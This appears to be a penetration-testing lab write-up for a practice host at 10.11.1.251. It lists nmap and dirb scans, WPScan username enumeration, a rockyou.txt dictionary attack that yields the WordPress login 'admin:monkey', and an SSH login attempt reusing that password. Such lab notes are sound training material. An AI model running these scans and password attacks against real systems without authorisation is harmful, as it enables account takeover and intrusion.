



Enumeration

# NMAP
## TCP Ports
### sudo nmap -Pn -p- 10.11.1.251

### sudo nmap -Pn -A -p- 10.11.1.251

## UDP Ports
Did not scan

# dirb
Non-recursive scan:
### dirb http://10.11.1.251 -r

Recursive scan for Wordpress site
### dirb http://10.11.1.251/wp

# WPScan
Enumerate usernames. There is one username: admin
### wpscan --url http://10.11.1.251/wp --enumerate u

Dictionary password attack on username: admin using rockyou.txt
### wpscan --url http://10.11.1.251/wp -U admin -P /usr/share/wordlists/rockyou.txt

Check that the login admin:monkey works

# SSH
Attempt to login with credentials sean:monkey

